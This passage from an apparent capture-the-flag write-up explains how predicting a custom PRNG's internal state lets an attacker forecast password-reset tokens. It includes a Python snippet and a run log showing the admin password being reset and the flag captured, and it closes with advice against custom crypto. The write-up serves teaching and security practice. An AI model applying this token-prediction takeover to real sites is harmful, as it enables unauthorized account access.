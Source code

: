Once we have found the internal state values n0, n1 and n2, clone the custom PRNG with seed = n2 and calculate the next token value. This will be the next token value used for password resets - if we're fast enough, we can try to use this to reset the admin password.

```python
  # brute custom PRNG seeds (internal state) for this token
  n0, n1, n2 = brute_seeds(token)
  
  # clone internal state of custom PRNG (seed with n2) in order to calculate the next token
  random = Random(n2)
  next_token = random.next_limit(281474976710656)
```

See [pwn_tokens.py](./pwn_tokens.py) for the fully automated solution script.

### Final Run / Flag Time!

```txt
└─$ ./pwn_tokens.py                                                                                                     1 ⨯
[*] Registering user jigvccslxx with editorial pw=pwedit and mail pw=pwmail
[*] Requesting password reset token for user jigvccslxx
[*] Gathering reset tokens from mailbox
[=] Timestamp = 2022-07-19 22:56:50, Token = 38052921756581 (0x229be2e24ba5)
[=] Next token after 38052921756581 will be 124975198277138
[*] Requesting password reset token for user admin
[*] Changing password for user admin to wvnvplchjd
[*] Grabbing editorial entries for user admin
[*] Flag = CS{cUsT0m_CruPt0_1s_1337}
```

## Flag

Flag: **CS{cUsT0m_CruPt0_1s_1337}**

## Conclusion

Don't do custom crypto, use proper algorithms!
